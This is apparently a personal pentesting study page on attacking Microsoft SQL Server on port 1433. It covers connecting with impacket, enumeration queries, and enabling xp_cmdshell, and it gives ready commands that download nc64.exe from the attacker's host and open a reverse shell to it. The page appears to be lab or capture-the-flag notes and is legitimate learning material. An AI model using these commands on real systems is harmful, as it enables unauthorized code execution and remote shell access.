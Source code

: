 ```yaml
---
title: 1433 msSQL
author: amandaguglieri
draft: false
TableOfContents: true
tag: pentesting,windows,impacket
---
```


# 1433 msSQL

## Connect to a remote Microsoft SQL database

For that, we can use a package such as [impacket](impacket.md) and, specifically, the module mssqlclient.py module that you can find in the folder examples:

```bash
python3 mssqlclient.py username:password@targetIP -windows-auth
# With python3 mssqlclient.py help you can see more options.
```

## Basic commands

```
# Get Microsoft SQL server version
select @@version;

# Get usernames
select user_name();

# Get databases
SELECT name FROM master.dbo.sysdatabases;

# Get current database
SELECT DB_NAME();

# Get a list of users in the domain
SELECT name FROM master..syslogins

# Get a list of users that are sysadmins
 SELECT name FROM master..syslogins WHERE sysadmin = 1;

# And to make sure: 
SELECT is_srvrolemember(‘sysadmin’); 
# If your user is admin, it will return 1.
```

## Executing cmd shell in a SQL command line

Our goal can be to spawn a Windows command shell and pass in a string for execution. For that Microsoft SQL syntaxis has the command **xp_cmdshell**, that will allow us to use the SQL command line as a CLI. 

Because malicious users sometimes attempt to elevate their privileges by using xp_cmdshell, xp_cmdshell is disabled by default. But we can use sp_configure or Policy Based Management to enable it. 

**sp_configure** displays or changes global configuration settings for the current settings. This is how you mmay take advantage of it:

```msSQL
# To allow advanced options to be changed.   
EXECUTE sp_configure 'show advanced options', 1;  
  
# To update the currently configured value for advanced options.  
RECONFIGURE;  

# To enable the feature.  
EXECUTE sp_configure 'xp_cmdshell', 1;  
  
# To update the currently configured value for this feature.  
RECONFIGURE;  
```

Now we can use the msSQL terminal to execute commands:

```msSQL
# This will return the .exe files existing in the current directory
EXEC xp_cmdshell 'dir *.exe';

# To print a file
EXECUTE xp_cmdshell 'type c:\Users\sql_svc\Desktop\user.txt

# With this (and a "python3 -m http.server 80" from our kali serving a file) we can upload a file to the attacked machine, for instance a reverse shell like nc64.exe
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://IPfromOurKali/nc64.exe -outfile nc64.exe";

# We could also bind this cmd.exe through the nc to our listener. For that open a different tab in kali and do a "nc -lnvp 443". When launching the reverse shell, we'll get a powershell terminal in this tab by running:
xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe IPfromOurKali 443";
# You could also upload winPEAS and run it from this powershell command line
```


## Sources and resources

+ [Impacket](impacket.md): mssqlclient.py.  
+ [Pentesmonkey Cheat sheet](https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet).
+ [book.hacktricks.xyz](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server).
+ [winPEAS](winpeas.md).



